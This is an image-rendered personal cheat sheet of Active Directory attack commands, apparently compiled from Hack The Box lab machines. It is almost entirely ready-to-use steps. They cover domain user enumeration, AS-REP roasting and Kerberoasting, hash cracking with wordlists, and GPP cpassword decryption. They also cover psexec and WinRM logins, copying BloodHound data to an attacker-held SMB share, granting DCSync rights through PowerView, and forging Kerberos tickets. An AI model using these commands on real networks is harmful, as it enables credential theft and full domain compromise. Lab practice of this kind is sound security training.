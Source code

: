     Active Directory Recon/Connecting:
        especially for domain controllers with smb, ldap, kerberos, etc.:  enum4linux 10.10.10.161  (gets usernames)
        ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.10
        rpcclient -U "" -N 10.10.10.161
          enumdomusers
          enumdomgroups
          querygroup 0x200 (see admin group members)
            querygroupmem 0x200
              queryuser 0x1f4
          querydispinfo
        (checking if username exists) Try to get user hashes, use GetNPUsers.py: for user in $(cat users); do python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.193 fabricorp.local/${user} | grep -v Impacket; done
          crack hash: hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force
          Then connect with evil-winrm--try password and hash

    Decrypting cpassword/GPP with gpp-decrypt:  gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
      then:  smbclient //10.10.10.100/Users -U SVC_TGS
      After getting user creds, then do Kerberoasting if ports are there (https://0xrick.github.io/hack-the-box/active/)
        1. add domain to /etc/hosts
        2. get admin Kerberos ticket:  python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request active.htb/SVC_TGS
        3. crack:  ./john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
        4. connect:  python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@active.htb

    Active Directory Recon/Suggestions with BloodHound:
      Run SharpHound.exe on victim to get data, then analyze it locally with BloodHound
        File transfer back to Kali with: python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username df -password df  on Kali
          victim:  net use \\10.10.14.18\share /u:df df,  copy 20191018035324_BloodHound.zip \\10.10.14.18\share\,  net use /d \\10.10.14.18\share
      Run BloodHound on kali:  first:  neo4j console    then:  set up password in http://localhost:7474/browser/  then:  ./BloodHound --no-sandbox
        drag zip sharphound file into window
        See groups and path to admin.
        Account Operators lets us create a new account and add to most groups.
        add to a group:  net group "Exchange Windows Permissions" svc-alfresco /add /domain
        Transfer PowerView.ps1 file to get the commands
        One liner ex.:   Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
          member of, write-dacl

    Kerberos Attacks:
        https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
        Get Known User TGTs:  python GetNPUsers.py -dc-ip 192.168.1.105 ignite.local/ -usersfile users -format john -outputfile hashes
            All Users (creds req):  python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
            Crack:  john --wordlist=/usr/share/wordlists/rockyou.txt hashes  \\  hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>
        Get Service Principal Names:  python GetUserSPNs.py -request -dc-ip 192.168.1.105 ignite.local/yashika  \\  python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>  \\  .\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
            Crack:  john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>  \\  hashcat -m 13100 --force <TGSs_file> <passwords_file>
        Create Ticket:  python ticketer.py -nthash f3bc61e97fb14d18c42bcbf6c3a9055f -domain-sid S-1-5-21-3523557010-2506964455-2614950430 -domain ignite.local raj
        Convert kirbi/ccache ticket:  python ticketConverter.py raj.ccache ticket.kirbi